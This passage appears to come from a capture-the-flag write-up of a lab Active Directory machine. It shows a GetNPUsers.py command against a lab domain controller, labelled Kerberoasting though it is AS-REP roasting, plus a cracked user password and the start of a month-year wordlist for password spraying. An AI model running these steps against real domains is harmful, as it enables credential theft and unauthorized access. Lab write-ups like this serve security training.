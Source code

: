 - Kerberoasting using GetNPUsers then cracking the hash to get password :

**python3 [GetNPUsers.py](http://getnpusers.py/) -dc-ip 172.31.3.4 Dictionary.csl/ -usersfile valid_users.txt**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Dictionary%20Machine%20ccb78796ba984a3595b4114196aad5ba/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Dictionary%20Machine%20ccb78796ba984a3595b4114196aad5ba/Untitled%203.png)

**izabel : June2013**

---

### Password Spraying

⇒ We still can't evil-winrm as user izabel to the machine. Enumerating RPC we find more users on the machine 

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Dictionary%20Machine%20ccb78796ba984a3595b4114196aad5ba/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Dictionary%20Machine%20ccb78796ba984a3595b4114196aad5ba/Untitled%204.png)

⇒ We previously saw what the password for izabel was **MONTHYEAR** so there's a possibility other users might have passwords like this. ****So we will make a password list something like that and password spray all these new users we have found

- Our wordlist :

```powershell
January2010
January2011
January2012
January2013
January2014
January2015
January2016
January2017
January2018
January2019
January2020
February2010
February2011
February2012
February2013
February2014
February2015
February2016
February2017
February2018
February2019
February2020
March2010
March2011
March2012
March2013
```
